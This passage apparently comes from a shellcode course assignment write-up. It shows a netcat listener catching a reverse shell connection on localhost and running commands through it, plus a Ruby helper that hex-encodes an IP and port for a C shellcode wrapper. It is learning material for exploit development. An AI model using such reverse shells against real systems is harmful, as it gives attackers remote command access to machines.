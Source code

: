 #### Successful Connection
```
skawa@ubuntu:~$ nc -lvp 3879
listening on [any] 3879 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 57996
uname -a
Linux ubuntu 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed Aug 14 15:31:16 UTC 2013 i686 i686 i386 GNU/Linux
whoami
skawa

```

#### Wrapper
For ease of configuration, I have put together a script that takes user supplied network information and converts it to hexadecimal. This can be found <a href="https://github.com/skahwah/slae/blob/master/assignment2/networkhex.rb">here</a>.

```ruby
08:25 skawa@skawa-mbp: Desktop $ ruby networkhex.rb
IP: 192.168.156.156 is \xc0\xa8\x9c\x9c
Port: 3879 is \x0f\x27
08:25 skawa@skawa-mbp: Desktop $
```

The converted network information can then be placed into the `IP` and `PORT` variables in the `C` shellcode wrapper. This can be found <a href="https://github.com/skahwah/slae/blob/master/assignment2/shellcode-reverse.c">here</a>.
